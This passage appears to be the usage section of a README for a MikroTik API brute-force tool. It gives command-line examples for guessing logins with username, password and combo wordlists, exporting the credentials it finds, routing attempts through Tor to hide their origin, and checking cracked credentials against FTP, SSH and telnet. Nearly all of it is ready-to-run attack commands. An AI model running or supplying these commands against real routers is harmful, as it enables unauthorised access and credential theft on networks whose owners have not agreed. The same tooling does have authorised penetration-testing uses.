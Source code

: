 ### Example 2: With Wordlist
```bash
# Using example wordlists
python mikrotikapi-bf.py -t 192.168.88.1 \
  -u examples/usernames.txt \
  -p examples/passwords.txt \
  --progress

# With combo file
python mikrotikapi-bf.py -t 192.168.88.1 \
  -d examples/combos.txt \
  --progress
```

### Example 3: Export Results
```bash
# Export to all formats
python mikrotikapi-bf.py -t 192.168.88.1 \
  -d examples/combos.txt \
  --export-all \
  --progress

# Check results
ls results/
cat results/mikrotik_*.json
```

### Example 4: With Proxy (Tor)
```bash
# FIRST: Install and start Tor
# Download: https://www.torproject.org/download/

# Test with Tor
python mikrotikapi-bf.py -t 192.168.88.1 \
  -d examples/combos.txt \
  --proxy socks5://127.0.0.1:9050 \
  --threads 1 \
  --progress
```

### Example 5: Service Validation
```bash
# Test multiple services
python mikrotikapi-bf.py -t 192.168.88.1 \
  -U admin -P password \
  --validate ftp,ssh,telnet \
  --progress \
  -vv
```

---

